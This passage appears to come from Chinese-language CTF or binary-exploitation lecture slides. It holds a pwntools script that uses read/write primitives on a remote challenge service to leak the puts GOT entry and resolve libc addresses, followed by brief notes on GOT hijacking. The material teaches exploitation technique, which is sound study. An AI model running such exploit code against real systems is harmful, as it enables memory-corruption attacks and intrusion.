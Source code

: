 ```python
from pwn import *
context.arch="amd64"

io=remote('sv.duckll.tw',12345)
elf=ELF('./a.out')

def menu(idx):
    io.recvline()
    io.sendline(str(idx))
    io.recvline()

def read(addr):
    menu(0)
    io.sendline(str(addr))
    return int(io.recvline()[:-1])

def write(addr,value):
    menu(1)
    io.sendline(str(addr))
    io.recvline()
    io.sendline(str(value))
    return

def leak(addr):
    return flat(read(addr))

puts_got=read(elf.got['puts'])

libc=DynELF(leak,puts_got)

libc_base=libc.find_base(leak,puts_got)

print(hex(libc_base))
print(hex(libc.lookup('system','libc.so')))
print(hex(libc.lookup('read','libc.so')))
print(libc._lookup_build_id())
print(hex(libc.stack()))
```

---

# 問題二

沒辦法控制 rip

--

# GOT Hijack

- GOT 是 function pointer
- 改變 GOT = 改變 rip
